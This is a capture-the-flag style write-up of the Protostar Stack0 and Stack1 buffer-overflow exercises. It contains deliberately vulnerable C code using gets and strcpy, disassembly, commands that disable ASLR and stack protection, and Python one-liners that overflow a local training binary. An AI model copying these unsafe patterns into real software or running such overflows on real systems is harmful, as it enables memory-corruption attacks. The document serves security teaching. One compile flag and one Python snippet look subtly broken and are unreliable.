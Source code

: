 # Writeup: Stack0-3

Check ASLR:
```bash
sysctl -a --pattern "randomize"
```

Disable ASLR temporarily:

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Disable stack protection and make stack executable:
```bash
gcc -m32 -ggdb -fno-stack-protection -z execstack <source.c>
```

## Stack0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

`volatile` is a keyword in C indicating that this variable can change anytime  
by outside the code and is omitted from compiler optimization.

```
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
```

The integer `modified` is at `[esp+0x5c]` and is assigned to 0.  
Our buffer is right above it starting at `[esp+0x1c]`. We can easily verify the size:

```bash
(gdb) print 0x5c-0x1c
$1 = 64
```

A pointer to our buffer is 'pushed' onto the stack. After the call to `gets` the value of `modified` is checked against 0. The `gets` function has no boundery checks so we can write more than 64 bytes into the buffer and land in our modified variable. Every value besides 0 would evalute to true so writing 1 more byte into the buffer would set the least significant byte (because of the endianess) and would print the winning message.

```
(gdb) x/d $esp+0x5c
0xbffff69c:     2
(gdb) x/xw $esp+0x5c
0xbffff69c:     0x00000002
(gdb) x/5xb $esp+0x5b
0xbffff69b:     0x41    0x02    0x00    0x00    0x00

user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 64 + '\x02'" | ./stack0
you have changed the 'modified' variable
```

**Note:**

The print function appends a new line character `0xa` at the end.  
To avoid this we can use `sys.stdout.write()`:

```bash
user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 3" | hexdump -C
00000000  41 41 41 0a                                       |AAA.|
00000004
user@protostar:/opt/protostar/bin$ python -c "import sys; sys.stdout.write('\x41' * 3)" | hexdump -C
00000000  41 41 41                                          |AAA|
00000003
```

**Resources:**

https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/  
https://docs.python.org/2/library/sys.html#sys.stdout

## Stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This time we can specify user-defined input as an input parameter to `stack1`.  
The program uses the unsafe function `strcpy`. The man pages already warns us:

> The strings may not overlap, and the destination string dest must be large enough
> to receive the copy.  Beware of buffer overruns!  (See BUGS.)

This time we have to overwrite `modified` with `0x61626364`.  
The Intel x86 processors use the little-endian format where the least significant byte is stored at the lowest memory address. So `0x61626364` is actually saved as `0x64 0x63 0x62 0x61`. We can use the python's `struct` module to get the correct byte order and dump the bytes like this:

```python
#!/usr/bin/env python3

import struct

data = struct.pack('<I', 0x61626364)
data = ''.join('\\x{:02X}'.format(a) for a in data)
print(data)

# \x64\x63\x62\x61
```

Now we can simply craft another input string:

```
$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * 64 + b'\x64\x63\x62\x61')" | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 6463 6261                                dcba
```

We can directly input it as an argument to gdb's `run` command:

```bash
(gdb) run $(python -c "import sys; sys.stdout.write(b'\x41' * 64 + b'\x64\x63\x62\x61')")
Starting program: /opt/protostar/bin/stack1 $(python -c "import sys; sys.stdout.write(b'\x41' * 64 + b'\x64\x63\x62\x61')")
you have correctly got the variable to the right value
```
